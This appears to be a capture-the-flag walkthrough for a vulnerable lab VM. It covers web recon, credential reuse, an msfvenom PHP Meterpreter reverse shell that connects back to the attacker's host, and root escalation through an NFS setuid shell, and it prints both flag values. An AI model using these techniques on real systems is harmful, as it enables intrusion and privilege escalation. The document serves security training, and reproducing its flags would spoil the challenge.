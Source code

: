 # Silly Willy VM (Hard Difficulty)

This directory consists of challenges related to `Silly Willy VM`.

Author: Xiaozhi and Ting Hui

## Silly Willy VM writeup 
Orcus walkthrough
1.	Nmap –sn to find the ip address. You can use nmap –sV to find the services open.
 
 
Port 80 is open so we see what it's about. 
 
2.	Run dirb on it to see what other directories it has.
 

3.	Notice that there is a /admin and a /backups. Lets view /admin. There isnt anything in the webpage but when we inspect element, we see a commented line leading us to /backups.
 
4.	Lets view /backups now. We can try downloading these to see what it is.
 
 
 
5.	Inside SimplePHPQuiz, there is a lot of folders and php files. We will now explore these and after awhile, you’ll find that you can get the database credentials in includes folder > db_conn.php. 
 
6.	Inside SimplePHPQuiz, there is a lot of folders and php files. We will now explore these and after awhile, you’ll find that you can get the database credentials in includes folder > db_conn.php.
7.	The credentials are dbuser and dbpassword.
 
8.	We can try uploading a php shell into the web root. This error thrown tells you this parameter (-- secure-file-priv) limits the effects of data import and export operations and only permit it to users who have the FILE privilege. 
 
9.	In dirb, we also saw another interesting directory called zenphoto. Let's visit that.
 
10.	Zenphoto is a content management system and we can set it up for exploitation. We will use the same credentials as above (dbuser, dbpassword)
 

11.	We now need to create a user to login to the admin panel. I will user credentials as follows:
12.	Username – user1
13.	Password – P@ssw0rd1
 

14.	After we have logged in, we can now upload files for exploitation. Let’s use msfvenom to create a reverse shell. 
 
15.	Command used: msfvenom -p php/meterpreter/reverse_tcp LHOST=(host ip) LPORT=4444 -f raw > shell.php
16.	The upload only accepts zip files, so we need to package it as a zip. Afterwards we can upload the file. 
 
 
 
17.	Now, we are ready for exploitation. First set up handler before running the shell. Use msfconsole.
 
18.	Now execute shell.php. This will return a meterpreter on your msfconsole.
 
 
19.	After searching a while, you will find a flag.txt in /var/www. Cat it and you will get the flag. 
20.	Flag 1/ User flag: 868c889965b7ada547fae81f922e45c4
 
 

21.	Now we need to perform privilege escalations. After navigating abit, we find something very interesting in /etc.
 
22.	Kippo is running on the machine, which means there could be credentials on it. (Kippo: an SSH honeypot service)
 
23.	We saw earlier that rpc is enabled, so lets run rpcinfo on the ip to see what it returns. We can see that nfs is enabled and we can see the mounts that are exported by the machine.
 
24.	Since Nfs is enabled, we will check for what mounts are exported by the machine. 	
 
25.	Checked the nfs config
 
26.	Created a program using nano called root_shell.c to set uid and gid and execute /bin/bash to /tmp/shell.c
 
27.	Went to /tmp and uploaded the root_shell.c file
 
28.	Went into shell and spawned python shell
 
29.	Compiled the shell.c program
 
30.	In kali machine, made a directory for /tmp/nfs and mounted it to target machine.
 
31.	Assigned root privileges to root_shell
 
32.	Get root flag from target machine 807307b49314f822985d0410de7d8bfe
 


